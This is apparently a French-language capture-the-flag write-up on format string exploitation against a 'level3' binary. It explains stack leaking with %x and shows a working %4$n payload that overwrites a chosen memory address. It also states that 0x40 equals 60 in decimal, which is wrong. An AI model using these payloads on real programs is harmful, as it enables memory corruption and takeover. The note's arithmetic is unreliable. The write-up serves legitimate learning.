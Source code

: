 ## AT&T vs Intel

syntaxe AT&T

`mov source, destination`

syntaxe Intel

`mov destination, source`

## Format String Exploitation

Si on ne donne pas explicitement d'arguments variadiques apres avoir indique un format tel que %x, printf() parcours la pile dans l'ordre ce qui nous donne un acces significatif a la Pile.

Exemple avec le binaire level3:

`(python -c 'print "AAAA" + " %x"*5') | ./level3`

-> `AAAA 200 b7fd1ac0 b7ff37d0 41414141 2e78252e`

printf() affiche notre chaine "AAAA" puis cherche les arguments affilies aux formats. Vu qu'on ne lui a pas fournis ces arguments, printf() ce contente d'afficher ce qu'il a sous la main, dans la pile.
Et surprise, on retrouve notre chaine "AAAA" -> "41414141".

D'un autre cote, l'argument `%n` permet de stocker le nombre de caracteres lus dans un argument donne. On va donc pouvoir exploiter cette faille et changer "AAAA" par une addresse.

Il nous a fallu 4 `%x` pour afficher notre chaine. Heureusement on peut indiquer a printf de ne pas suivre l'ordre des arguments variadiques.

`%4$n` indique qu'il faut aller cherche le 4eme argument variadique.

Quel interet si `%n` sert uniquement a stocker la sortie du printf() ? Et bien on va pouvoir ecrire autant de caracteres que l'on veut de sorte a reformer la valeur de notre choix. Ici c'est 0x40 soit 60 en decimal.


`(python -c 'print "\x8c\x98\x04\x08" + "%60c" + "%4$n"'; cat) | ./level3`
- "\x8c\x98\x04\x08" est l'adresse que l'on souhaite modifier
- "%60c" sert a afficher 60 whitespaces afin de faire monter le compteur de printf()
- "%4$n" va chercher "\x8c\x98\x04\x08" 4 adresses plus loins et y stocker 60 soit 0x40.


